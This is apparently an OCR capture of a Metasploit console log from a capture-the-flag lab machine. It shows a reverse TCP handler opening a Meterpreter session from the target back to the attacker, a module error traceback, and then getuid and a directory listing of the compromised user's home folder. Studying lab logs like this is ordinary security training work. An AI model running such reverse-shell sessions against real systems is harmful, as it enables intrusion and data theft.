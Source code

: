 [*] Upgrading session ID: 5  
[*] Starting exploit/multi/handler  
[*] Started reverse TCP handler on 10.10.14.206:4433  
#<Thread:0x000056306eca6008@/usr/share/metasploit-framework/lib/msf/core/thread_manager.rb:93 run> terminated with exception (report_on_exception is true):  
Traceback (most recent call last):  
1: from /usr/share/metasploit-framework/lib/msf/core/thread_manager.rb:100:in `block in spawn'  
/usr/share/metasploit-framework/modules/post/multi/manage/shell_to_meterpreter.rb:268:in `block in cleanup_handler': uninitialized constant Msf::Modules::Mod706f73742f6d756c74692f6d616e6167652f7368656c6c5f746f5f  
6d65746572707265746572::MetasploitModule::HANDLE_TIMEOUT (NameError)  
msf exploit(multi/handler) >  
[*] Sending stage (179779 bytes) to 10.10.10.63  
[*] Meterpreter session 6 opened (10.10.14.206:4433 -> 10.10.10.63:49695) at 2018-05-17 20:21:31 +0200  
Interrupt: use the 'exit' command to quit  
msf exploit(multi/handler) > sessions -i 6  
[*] Starting interaction with 6...

meterpreter > getuid  
Server username: JEEVES\kohsuke

meterpreter > cd C:/Users/kohsuke  
meterpreter > ls  
Listing: C:\Users\kohsuke  
=========================

Mode Size Type Last modified Name  
---- ---- ---- ------------- ----  
40777/rwxrwxrwx 0 dir 2017-11-04 03:51:45 +0100 .groovy  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 AppData  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 Application Data  
40555/r-xr-xr-x 0 dir 2017-11-04 04:15:51 +0100 Contacts  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 Cookies  
40555/r-xr-xr-x 0 dir 2017-11-04 04:19:59 +0100 Desktop  
40555/r-xr-xr-x 4096 dir 2017-11-04 04:18:57 +0100 Documents  
40555/r-xr-xr-x 0 dir 2017-11-04 04:15:51 +0100 Downloads  
40555/r-xr-xr-x 0 dir 2017-11-04 04:15:51 +0100 Favorites  
40555/r-xr-xr-x 0 dir 2017-11-04 04:22:42 +0100 Links  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 Local Settings  
40555/r-xr-xr-x 0 dir 2017-11-04 04:15:51 +0100 Music  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 My Documents  
100666/rw-rw-rw- 786432 fil 2017-12-24 20:38:40 +0100 NTUSER.DAT  
100666/rw-rw-rw- 65536 fil 2017-11-04 03:50:41 +0100 NTUSER.DAT{62e13464-7ee5-11e5-80c4-a4badb40df56}.TM.blf  
100666/rw-rw-rw- 524288 fil 2017-11-04 03:50:41 +0100 NTUSER.DAT{62e13464-7ee5-11e5-80c4-a4badb40df56}.TMContainer00000000000000000001.regtrans-ms  
100666/rw-rw-rw- 524288 fil 2017-11-04 03:50:41 +0100 NTUSER.DAT{62e13464-7ee5-11e5-80c4-a4badb40df56}.TMContainer00000000000000000002.regtrans-ms  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 NetHood  
40555/r-xr-xr-x 0 dir 2017-11-04 04:22:42 +0100 OneDrive  
40555/r-xr-xr-x 0 dir 2017-11-04 08:10:02 +0100 Pictures  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 PrintHood  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 Recent  
40555/r-xr-xr-x 0 dir 2017-11-04 04:15:51 +0100 Saved Games  
40555/r-xr-xr-x 4096 dir 2017-11-04 04:16:35 +0100 Searches  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 SendTo  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 Start Menu  
40777/rwxrwxrwx 0 dir 2017-11-04 03:50:40 +0100 Templates  
40555/r-xr-xr-x 0 dir 2017-11-04 04:15:51 +0100 Videos  
100666/rw-rw-rw- 81920 fil 2017-11-04 03:50:40 +0100 ntuser.dat.LOG1  
100666/rw-rw-rw- 163840 fil 2017-11-04 03:50:40 +0100 ntuser.dat.LOG2  
100666/rw-rw-rw- 20 fil 2017-11-04 03:50:40 +0100 ntuser.ini
